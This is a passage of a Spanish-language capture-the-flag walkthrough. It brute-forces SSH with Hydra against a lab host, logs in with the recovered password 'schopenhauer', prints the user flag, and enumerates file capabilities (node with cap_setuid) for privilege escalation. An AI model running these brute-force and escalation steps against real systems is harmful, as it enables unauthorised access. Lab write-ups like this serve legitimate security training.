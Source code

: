### Hydra

```shell
hydra -l fred -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-11 03:38:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 49 tasks per 1 server, overall 49 tasks, 49 login tries (l:1/p:49), ~1 try per task
[DATA] attacking ssh://192.168.1.173:22/
[22][ssh] host: 192.168.1.173   login: fred   password: schopenhauer
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-11 03:38:06
```

Veremos que ha funcionado, por lo que nos vamos a conectar por `SSH` de la siguiente forma:

```shell
ssh fred@<IP>
```

Metemos como contraseña `schopenhauer` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
Ineedmorepower
```

## Escalate Privileges

Si listamos las `capabilities` que tenemos con dicho usuario, veremos lo siguiente:

```shell
/usr/sbin/getcap -r / 2>/dev/null
```

Info:

```
/usr/bin/ping = cap_net_raw+ep
/usr/bin/node = cap_setuid+ep
```

Vamos a buscar en `GTFObins` que podemos hacer con alguno de estos `2` que hemos encontrado.
